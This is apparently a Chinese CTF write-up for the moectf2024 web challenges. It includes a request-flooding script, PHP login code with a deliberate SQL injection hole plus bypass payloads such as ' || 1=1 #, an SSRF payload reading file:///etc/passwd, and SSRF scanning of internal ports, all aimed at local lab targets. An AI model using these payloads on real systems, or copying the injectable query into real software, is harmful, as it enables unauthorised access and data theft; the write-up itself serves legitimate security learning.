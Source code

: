 ```yaml
---
typora-root-url: ./moectf2024-Web-wp
title: moectf2024-Web-wp
toc: true
categories:
  - 技术
  - ctf
  - web
  - wp
date: 2024-10-10 22:15:08
tags: 
  - ctf
---
```


## web入门指北

phpstudy傻瓜式安装即可，鼓励大家自行搭建，然后附件源码放网站根目录（phpstudy默认一般是WWW），注意删除根目录下的index.php, 覆盖index.html, 因为默认配置访问根目录（GET /）index.php的优先级比index.html高，浏览器输入正确url访问即可回显flag

## ez_http

按要求做，做下一步时不要丢弃上一步的操作

![](/img1.png)

## ProveYourLove

前端阻止重复提交，发包绕过, exp：

```python
//exp.py
import requests

url = 'http://127.0.0.1:53785/questionnaire'

data = {
    'nickname': 'xiaotian',
    'target': '333',
    'message': 'eeeeeeeeee',
    'user_gender': 'male',
    'target_gender': 'male',
    'anonymous': 'false'
}

for i in range(300):
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

电院_Backend

后台常用robots协议防止爬虫爬取，访问robots.txt发现存在/admin/, 

```
User-agent: *
Disallow: /admin/
```

访问/admin/发现后台，附件给了login.php源码

```php
<?php
error_reporting(0);
session_start();

if($_POST){
    $verify_code = $_POST['verify_code'];

    // 验证验证码
    if (empty($verify_code) || $verify_code !== $_SESSION['captcha_code']) {
        echo json_encode(array('status' => 0,'info' => '验证码错误啦，再输入吧'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $email = $_POST['email'];
    if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);

    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}
?>
```

存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## ImageCloud前置

经典的ssrf`payload: file:///etc/passwd`

## ImageCloud

随便传个文件，点击已上传文件查看，发现url中有`/image?url=http://localhost:5000/static/{filename}`

题目给了源码文件，5000端口映射在外网，但是app2.py运行在一个随机端口（5001-6000）需要借助ssrf爆破内网app2的端口

![](/img2.png)

可以通过暴露出来的服务打ssrf爆破app2的运行端口，从而借助ssrf窃取内网app2的图片

![](/img3.png)